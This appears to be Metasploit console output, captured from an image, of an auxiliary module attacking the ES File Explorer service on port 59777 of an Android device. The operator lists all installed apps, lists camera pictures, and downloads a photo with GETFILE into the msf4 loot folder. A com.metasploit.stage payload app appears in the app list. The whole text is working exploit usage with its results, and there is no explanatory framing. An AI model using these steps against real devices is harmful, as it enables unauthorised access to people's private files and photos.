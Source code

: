 ```
action => LISTAPPSALL
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.android.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
```
...snip...

```
  com.android.keyguard (com.android.keyguard) Version: 4.4.2-20150203
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Face Unlock (com.android.facelock) Version: 4.4.2-940549
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTPICS
action => LISTPICS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  IMG_20190323_165608.jpg (140.06 KB) - 3/23/2019 04:56:08 PM: /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action GETFILE
action => GETFILE
resource (es.rb)> set actionitem /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg
actionitem => /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg
resource (es.rb)> run
[+] 1.1.1.1:59777  - /storage/emulated/0/DCIM/Camera/IMG_20190323_165608.jpg saved to /root/.msf4/loot/20190324073855_default_1.1.1.1_getFile_670725.jpg
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPS
action => LISTAPPS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  TalkBack (com.google.android.marvin.talkback) Version: 5.0.7
  Google Play services (com.google.android.gms) Version: 12.6.85 (000302-197041431)
  Phone (com.android.phone) Version: 1.0
  Google Play Music (com.google.android.music) Version: 8.12.7210-1.F
  Google Text-to-speech Engine (com.google.android.tts) Version: 3.15.18.200023596
  Cloud Print (com.google.android.apps.cloudprint) Version: 1.40
  com.softwinner.videotest (com.softwinner.videotest) Version: 1.0
  APUS (com.apusapps.launcher) Version: 2.3.1
  Settings (com.android.system.io.settings) Version: 11.1.0
  DragonPhone (com.softwinner.dragonphone) Version: 1.0
  com.mediatek.touch (com.mediatek.touch) Version: 21_zh80001
  Google Play Store (com.android.vending) Version: 13.9.17-all [0] [PR] 236777123
  com.android.google.settings (com.android.google.settings) Version: 17_zh10317
  MainActivity (com.metasploit.stage) Version: 1.0
  Gmail (com.google.android.gm) Version: 8.6.3.200445973.release
  L-Uninstall (com.clear.uninstall) Version: 2.0
  ES File Explorer (com.estrongs.android.pop) Version: 4.1.9.5.1
  DragonFire-v2.3 (com.softwinner.dragonfire) Version: 2.3 release
  YouTube (com.google.android.youtube) Version: 13.23.59
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Chrome (com.android.chrome) Version: 67.0.3396.87

[*] Scanned 1 of 1 hosts (100% complete)
```